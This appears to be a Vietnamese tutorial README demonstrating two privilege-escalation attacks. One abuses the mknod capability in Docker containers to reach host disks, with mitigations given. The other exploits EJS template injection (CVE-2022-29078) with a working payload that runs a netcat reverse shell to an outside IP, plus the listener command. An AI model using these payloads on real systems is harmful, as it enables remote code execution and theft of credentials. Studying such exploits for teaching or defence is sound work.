


# Demo privilege escalation 2 shell
## Lạm dụng capability mknod khi có quyền root trong container

Block special file hay devices file là những file tham chiếu đến một thiết bị phần cứng trong linux.

Mknod là một câu lệnh linux cho phép tạo các devices file tùy ý mà chúng ta có quyền sở hữu và thực thi đối với bất kỳ thiết bị nào. Thậm chí các devices file có thể cung cấp quyền truy cập không giới hạn và bất kỳ người dùng nào cũng có quyền truy cập tùy ý (hardware & kernel module).

Để biết được các block devices nào đang được sử dụng trên hệ thống linux ta dùng lệnh `lsblk`



khi một container tạo ra mặc định user trong container sẽ có quyền root và hiển nhiên có quyền tạo ra một devices file.

Docker mặc định chặn người dùng trong container đọc và ghi các block device. Tuy nhiên lỗ hổng xảy ra khi có người dùng host bên ngoài container có cùng tên với người dùng bên trong container truy cập vào bằng /proc/{PID}/root/.../sda họ sẽ có quyền đọc ghi lên file sda này.



Lỗ hổng cho phép hacker toàn quyền đọc ghi tất cả các files trong ổ đĩa bao gồm /etc/shadow.

Để fix lỗ hổng này:
Best practice là hãy sử dụng một user rootless
hoặc sử dụng câu lệnh này khi chạy docker ```–cap-drop=MKNOD```


## EJS, Server side template injection RCE (CVE-2022-29078)

Lỗ hổng xảy ra do hacker có thể chèn mã độc hại vào bên trong hàm renderFile của EJS

```javascript
// Undocumented after Express 2, but still usable, esp. for
// items that are unsafe to be passed along with data, like `root`
viewOpts = data.settings['view options'];
if (viewOpts) {
    utils.shallowCopy(opts, viewOpts);
}
```
Chúng ta nhận ra là hàm copy hết tất cả view options vào viewOpts mà không hề có hạn chế nào

```javascript
prepended +=
    '  var __output = "";\n' +
    '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
if (opts.outputFunctionName) {
    prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```

bây giờ ta có code được payload như sau:
```
x;process.mainModule.require('child_process').execSync('nc -e sh 192.168.18.130 1337');s
```

và code được compile sẽ là
```javascript
var x;process.mainModule.require('child_process').execSync('nc -e sh 192.168.18.130 1337');s = __append;
```
Sau đó sử dụng netcat để lắng nghe ở cổng 1337 ta sẽ có được shell
```sh
nc -lnvp 1337
```